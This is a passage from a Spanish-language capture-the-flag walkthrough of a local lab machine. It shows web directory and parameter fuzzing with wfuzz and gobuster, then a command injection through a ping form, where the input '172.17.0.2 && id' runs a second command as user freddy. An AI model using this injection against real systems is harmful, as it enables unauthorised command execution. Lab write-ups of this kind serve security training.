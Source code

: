 Fuzzeando si existen parametros no tuvimos nada:
```bash
wfuzz -c --hw 31 -t 200 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2/machine.php\?FUZZ\=whoami"
```

## Enumeracion de [Servicio Web 443]
```bash
https://172.17.0.2/
```

Fuzzeamos por direcctorios:
```bash
gobuster dir -u https://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 --add-slash -k
```

Fuzzeamos por archivos:
```bash
gobuster dir -u https://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 -x php,php.back,php,backup,txt,sh,html -k
```

Resulato es el mismo que en la url anterior:
```bash
/index.html           (Status: 200) [Size: 10671]
/javascript           (Status: 301) [Size: 315] [--> https://172.17.0.2/javascript/]
/machine.php          (Status: 200) [Size: 6989]
```

## Enumeracion de [Servicio Web 5000]
Tenemos la web en este puerto:
```bash
http://172.17.0.2:5000/
```

## Explotacion de Vulnerabilidades
### Ejecucion del Ataque
En el campo nos permite realizar un **ping** a una direccion **ip** 
Ahora si no esta sanitizada podemos colarle un comando aparte de la siguiente manera:
```bash
172.17.0.2 && id
```

Respuesta:
```bash
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.032 ms
64 bytes from 172.17.0.2: icmp_seq=2 ttl=64 time=0.039 ms
64 bytes from 172.17.0.2: icmp_seq=3 ttl=64 time=0.062 ms
64 bytes from 172.17.0.2: icmp_seq=4 ttl=64 time=0.051 ms

--- 172.17.0.2 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3066ms
rtt min/avg/max/mdev = 0.032/0.046/0.062/0.011 ms
uid=1001(freddy) gid=1001(freddy) groups=1001(freddy) # Output de nuestro comando ( id )
```

---